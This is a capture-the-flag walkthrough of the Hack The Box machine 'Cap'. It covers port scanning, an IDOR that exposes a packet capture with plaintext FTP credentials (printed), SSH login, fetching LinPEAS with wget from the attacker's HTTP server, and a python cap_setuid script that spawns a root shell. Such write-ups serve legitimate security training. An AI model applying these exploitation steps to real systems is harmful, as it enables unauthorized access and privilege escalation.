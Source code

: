 - - - 
created : 18-09-2025 

Tags : #easy 

Released on 05 Jun 2021
- - - 
# Recon
## Rustscan - Nmap

First we add the target IP to our /etc/hosts file, then we use [Rustscan](../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~]
└─$ rustscan -a cap.htb -- -A      

Open 10.10.10.245:22
Open 10.10.10.245:21
Open 10.10.10.245:80

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 63 Gunicorn
|_http-server-header: gunicorn
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
```
# Enumeration
## HTTP (80)
### Gobuster

We can use [Gobuster](../../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) to start [Enumeration](../../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) on the target :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Cap]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u  http://cap.htb 

/capture              (Status: 302) [Size: 222] [--> http://cap.htb/data/10]
/data                 (Status: 302) [Size: 208] [--> http://cap.htb/]
/ip                   (Status: 200) [Size: 17466]
/netstat              (Status: 200) [Size: 34889]
```

![Pasted image 20250918191540.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250918191540.png)

This suggests that the application is executing system commands. Clicking on the Security Snapshot menu item pauses the page for a few seconds and returns a page as shown below:

![Pasted image 20250918191758.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250918191758.png)

### WireShark

We can use [Wireshark](../../../3%20-%20Tags/Hacking%20Tools/Wireshark.md) to examine the `Download` file:

We don't see anything interesting .
# Exploit
### IDOR

One interesting thing to notice is the URL scheme when creating a new capture, that is of the form
/data/<> . The id is incremented for every capture. It's possible that there were packet
captures from users before us.
Browsing to /data/0 does indeed reveal a packet capture with multiple packets.

![Pasted image 20250918194749.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250918194749.png)

This vulnerability is known as Insecure Direct Object Reference ([IDOR](../../../3%20-%20Tags/Hacking%20Concepts/IDOR.md)), wherein a user can directly
access data owned by another user. Let's examine this capture for potential sensitive data.

![Pasted image 20250918194905.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250918194905.png)

Opening the ID 0 capture file in Wireshark reveals [FTP](../../../3%20-%20Tags/Hacking%20Concepts/FTP.md) traffic, including the user authentication.

The traffic is not encrypted, allowing us to retrieve the user credentials i.e. `nathan : Buck3tH4TF0RM3!` . These are found to be valid not only for [FTP](../../../3%20-%20Tags/Hacking%20Concepts/FTP.md) but can be used to login via [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md).
## SSH

These creds are found to be valid not only for [FTP](../../../3%20-%20Tags/Hacking%20Concepts/FTP.md) but can be used to login via [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md):

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Cap]
└─$ ssh nathan@cap.htb         

nathan@cap:~$ cat user.txt 
  HTB{{REDACTED_FLAG}}
```
# Privilege Escalation

Let's use [LinPEAS](../../../3%20-%20Tags/Hacking%20Tools/LinPEAS.md):

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Cap]
└─$ locate linpeas.sh                                
/home/mdn0x/Documenti/GitTools/Enum/linpeas.sh
/home/mdn0x/HTB/Academy/Knowledgecheck/linpeas.sh
/home/mdn0x/HTB/Machines/Editor/linpeas.sh
/home/mdn0x/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit/linpeas.sh
/home/mdn0x/HTB/Machines/Soulmate/Root/linpeas.sh
/home/mdn0x/THM/CHALLENGES/Easy/Startup/linpeas.sh
/home/mdn0x/THM/CHALLENGES/Easy/mKingdom/linpeas.sh
/usr/share/peass/linpeas/linpeas.sh

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Cap]
└─$ cp /home/mdn0x/Documenti/GitTools/Enum/linpeas.sh .

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Cap]
└─$ ls               
0.pcap  Cap.pdf  linpeas.sh  root.txt  user.txt

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Cap]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
nathan@cap:/tmp$ wget http://10.10.14.177/linpeas.sh
--2025-09-18 18:00:48--  http://10.10.14.177/linpeas.sh
Connecting to 10.10.14.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                    100%[==============================================>] 131.02K   240KB/s    in 0.5s    

2025-09-18 18:00:49 (240 KB/s) - ‘linpeas.sh’ saved [134168/134168]

<SNIP>

[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                         
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip                                                             
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

```

The /usr/bin/python3.8 is found to have `cap_setuid` and `cap_net_bind_service` , which isn't the default setting.

According to the documentation, **CAP_SETUID** allows the process to gain setuid privileges without the **SUID** bit set. This effectively lets us switch to **UID 0** i.e. root.
The developer of Cap must have given Python this capability to enable the site to capture traffic, which a non-root user can't do.

We can create a [Python](../../../3%20-%20Tags/Programming%20Languages/Python.md) script to spawn a root shell, we use [Nano](../../../3%20-%20Tags/Hacking%20Tools/Nano.md):

```bash
nathan@cap:~$ cat rootme 
#!/usr/bin/python3.8
import os
os.setuid(0)
os.system("/bin/bash")
```

```bash
nathan@cap:~$ ./rootme 
root@cap:~# cat /root/root.txt
  HTB{{REDACTED_FLAG}}
```

Pwned !!